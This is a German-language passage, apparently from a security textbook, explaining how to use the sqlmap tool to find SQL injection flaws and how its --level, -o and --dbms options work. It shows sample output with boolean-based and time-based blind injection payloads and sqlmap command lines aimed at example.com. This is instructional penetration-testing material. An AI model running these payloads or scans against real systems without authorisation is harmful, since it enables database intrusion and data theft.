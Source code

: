\begin{listing}
\begin{verbatim}
sqlmap identified the following injection point(s) with a total of 307 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: uname=") OR NOT 7407=7407#&passwd=

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: uname=") OR SLEEP(5)#&passwd=
\end{verbatim}
\end{listing}

Findet sqlmap verwundbare Parameter, so werden diese zusammen mit dem genutzten Payload ausgegeben. Im obigen Beispiel war der Parameter \texttt{username} angreifbar, sqlmap liefert hierzu eine time-based und eine boolean-based SQL"=Injection.

\begin{listing}[ht!]
\begin{verbatim}
> python sqlmap.py --level=5 -u "http://www.example.com/app.php" --data={username=&password=}
\end{verbatim}
\end{listing}

Gelingt es sqlmap nicht, eine SQL"=Injection zu finden, so kann mit \texttt{--level} die Anzahl der getesteten SQL"=Injection"=Varianten erhöht werden -- wobei 1 die niedrigste Stufe und 5 jene Stufe mit der größten Zahl an Anfragen darstellt. Neben der Anzahl der möglichen Varianten pro Parameter werden mit höheren Stufen auch Cookies und HTTP"=Header getestet. Die größere Anzahl an Anfragen hat allerdings auch eine längere Ausführungsdauer des Befehls zur Folge.

\begin{listing}[ht!]
\begin{verbatim}
> python sqlmap.py  -o --dbms=MySQL -u "http://www.example.com/app.php?id"
\end{verbatim}
\end{listing}

Gerade hierfür kann die Verwendung der Argumente \texttt{-o} und \texttt{--dbms} sinnvoll sein. Mit \texttt{-o} werden allgemeine optimierende Optionen aktiviert -- etwa Multithreading -- welche die Ausführungsdauer reduzieren können. Ist das verwendete Datenbankmanagementsystem bekannt, so kann auch mit der Angabe von \texttt{--dbms} verhindert werden, dass SQL"=Injections, die für andere DBMS spezifischen Code enthalten, durchgeführt wird.


